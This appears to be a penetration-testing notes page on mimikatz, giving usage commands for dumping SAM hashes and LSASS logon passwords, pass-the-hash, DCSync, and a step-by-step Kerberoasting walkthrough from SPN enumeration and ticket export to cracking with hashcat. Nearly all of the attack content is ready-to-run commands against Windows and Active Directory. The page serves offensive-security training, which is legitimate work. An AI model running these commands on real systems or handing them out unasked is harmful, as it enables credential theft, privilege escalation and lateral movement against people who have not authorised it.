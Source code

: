 ```yaml
---
title: mimikatz
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
  - pass the hash attack
---
```


# mimikatz

**`mimikatz`** is a tool made in `C` .

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

Kiwi module in [a meterpreter in metasploit](metasploit.md) is an adaptation of mimikatz.

## No installation, portable

Download from: https://github.com/ParrotSec/mimikatz.git

## Basic usage

```bash
# Impersonate as NT Authority/SYSTEM (having permissions for it).
token::elevate

# List users and hashes of the machine
lsadump::sam

# Enable debug mode for our user
privilege::debug

# List users logged in the machine and still in memory
sekurlsa::logonPasswords full

# Pass The Hash attack in windows:
# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /run:<Command>: For example /run:cmd.exe
# 2. After that, we canuse cmd.exe to execute commands in the user's context. 

# Run a dcsync attack:
.\mimikatz.exe privilege::debug "lsadump::dcsync /domain:$domain /user:Administrator" exit

#####
# Analyze a lsaass dump file:
#####
# Using 'mimikatz.log' for logfile
mimikatz # log
# Switch to MINIDUMP : 'lsass.dmp'
mimikatz # sekurlsa::minidump lsass.dmp
# Opening : 'lsass.dmp' file for minidump...
mimikatz # sekurlsa::logonpasswords
###########
```


## An Example

**1.** Enumerating SPNs with setspn.exe

```cmd-session
setspn.exe -Q */*
```

We will focus on `user accounts` and ignore the computer accounts returned by the tool.

**2.** Using PowerShell, we can request TGS tickets for the interested account and load them into memory.

```powershell
Add-Type -AssemblyName System.IdentityModel
# Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object.
# -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
# System.IdentityModel is a namespace that contains different classes for building security token services

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/SQL01.inlanefreight.local:1433"
#  New-Object cmdlet to create an instance of a .NET Framework object.
# System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token 
# -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433": pass the SPN name to the class to request a Kerberos TGS ticket
```


**3.** If needed, we could also retrieve all tickets:

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


**4.** Extract Tickets from Memory with Mimikatz

```cmd-session
# Launch mimikatz
mimikatz.exe

# Specify base64
base64 /out:true
# If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files.

# Export the tickets
kerberos::list /export 
```

**5.** Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```


**6.** We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

**7.** Use [kirbi2john.py](kirbi2john.md):


```shell-session
python2.7 kirbi2john.py Filename.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ServiceName_tgs_hashcat
```

**8.** Cracking the Hash with Hashcat

```shell-session
hashcat -m 13100 ServiceName_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.
